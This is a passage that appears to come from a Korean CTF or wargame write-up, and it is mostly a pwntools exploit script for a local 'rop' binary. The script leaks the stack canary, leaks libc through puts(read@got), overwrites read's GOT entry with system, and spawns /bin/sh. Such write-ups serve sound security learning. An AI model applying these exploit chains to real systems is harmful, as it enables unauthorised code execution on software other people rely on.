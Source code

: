 ```python

p.send(p64(system)+b"/bin/sh\x00")
```

<br>

**쉘 흭득**

```python
from pwn import *

def slog(name, addr):
        return success(": ".join([name, hex(addr)]))


p = process("./rop")
e = ELF("./rop")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
r = ROP(e)



# [1] Leak Canary
buf = b'A'*57
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
canary = u64(b'\x00'+p.recvn(7))
slog("Canary", canary)



# [2] Exploit
read_plt = e.plt['read']
read_got = e.got['read']
puts_plt = e.plt['puts']
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

payload = b'A'*56 + p64(canary) + b'B'*8


# puts(read@got)
payload += p64(pop_rdi) + p64(read_got) # puts(read@got)
payload += p64(puts_plt)        # puts(read@got) 호출


# read(0, read@got, 0) => read@got -> system
payload += p64(pop_rdi) + p64(0)        # read(0, , )
payload += p64(pop_rsi_r15) + p64(read_got) + p64(0)    # read(0, read@got, 0)
payload += p64(read_plt)        # read(0, read@got, 0) 호출


# read("/bin/sh") => system("/bin/sh")
payload += p64(pop_rdi)
payload += p64(read_got+0x8)    # read 함수의 첫번째 인자 값 ("/bin/sh")
payload += p64(read_plt)        # read("/bin/sh") 호출


p.sendafter("Buf: ", payload)   # puts()와 read got를 이용해서 read() 주소 출력
read = u64(p.recvn(6)+b'\x00'*2)        # 화면에 출력된 read() 주소를 read에 대입
lb = read - libc.symbols["read"]        # libc base = read 주소 - read symbols
system = lb + libc.symbols["system"]    # system = libc base + system symbols

slog("read", read)
```